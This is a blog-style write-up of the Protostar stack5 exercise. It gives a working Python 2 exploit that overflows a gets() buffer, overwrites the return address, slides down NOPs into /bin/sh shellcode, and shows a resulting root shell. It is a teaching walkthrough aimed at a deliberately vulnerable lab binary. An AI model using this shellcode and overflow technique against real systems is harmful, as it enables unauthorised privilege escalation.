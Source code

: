 ```yaml
---
layout: post
title: "Using shellcode: protostar stack5"
date: 2019-1-2
categories: jekyll update
---
```

For this challenge, there is no function that we will call. Rather, our goal now is to get root

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}

What we are given to work with here is simply a main function with a buffer of size 64 and a gets() function.

We can use python to test how many characters we need to input to trigger a crash. Because the buffer is the same size, I will try to use 76 "A"s, like before.

$ python -c 'print "A"*76' | /opt/protostar/bin/stack5

$

If we run the program with 75 characters, it doesn't cause a crash. Therefore we can use 76 as our padding.

Besides being able to crash the program, it doesn't seem there is much in the program that we can exploit. This is where shellcode comes into play, being that we are able to inject our own machine instructions.

While writing your own shellcode is a very good skill to learn, for the sake of simplicity it may be a better idea to use someone else's. This way, there is no need to worry about if any errors come from the shellcode, or the exploit, there is only one variable: the exploit.

I grabbed some shellcode from shell-storm.org/shellcode. There's a lot of different shellcode, but I just used a simple /bin/sh one.

Essentially what we do now is begin constructing our exploit. I used python 2.7.

{% highlight python %}
offset = "A"*76

#address into the nop slide
eip = "\xe0\xf7\xff\xbf"

nop = "\x90"

#shellcode to call /bin/sh
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

print offset + eip + (nop * 78) + shellcode
{% endhighlight %}

What the exploit is doing is printing a sting. First we fill the buffer to let us overflow. Then the EIP is overwritten with an address I guessed would land us in the shellcode. This is followed by a somewhat large number of NOPs. NOPs are machine instructions which do nothing, so they are perfect for creating a "slide" into the shellcode. If the EIP which I guessed is anywhere in the memory with the NOPs, the processor will execute the do nothing instruction all the way until it reaches our shellcode, and executes that.

$ python exploit.py | /opt/protostar/bin/stack5

$

This is strange, it doesn't seem to give any kind of a segfault, so what is going on here? It should either crash or give a shell. 

Our problem has to do with the way i/o is handled, and so we end up executing the program, but don't interact with it.

We need some way to interact with the shell, so we can use the cat command with a dash (-) after the file to cat.
This will allow us to interact with our shell

$ python exploit.py > e

$ cat e - | /opt/protostar/bin/stack5

whoami

root


Our exploit works!
